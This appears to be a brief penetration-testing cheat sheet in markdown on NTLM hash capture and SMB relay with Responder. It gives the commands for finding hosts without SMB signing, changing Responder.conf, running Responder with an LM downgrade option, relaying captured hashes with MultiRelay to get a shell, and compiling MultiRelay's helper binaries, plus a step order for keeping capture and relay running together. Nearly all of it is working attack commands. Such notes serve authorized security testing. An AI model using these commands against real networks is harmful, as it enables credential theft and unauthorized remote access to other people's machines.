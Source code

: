 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* change `/etc/responder/Responder.conf`
  * `SMB` - off
  * `HTTP` - off
* `responder -I <interface> <--lm> <-dwPv>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

In case of issues with MultiRelay.py:
- `apt-get install gcc-mingw-w64-x86-64`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Runas.c -o ./MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `x86_64-w64-mingw32-gcc ./MultiRelay/bin/Syssvc.c -o ./MultiRelay/bin/Syssvc.exe -municode`

or
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv`
- `i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode`

> [!Important]
To keep `SMB` and `HTTP` On in responder.conf
1. Run responder until hashes is received and close
2. Run Multirelay
3. While MultiRelay is running, run again responder

Meterpreter shell:
* see Metasploit.md from this section
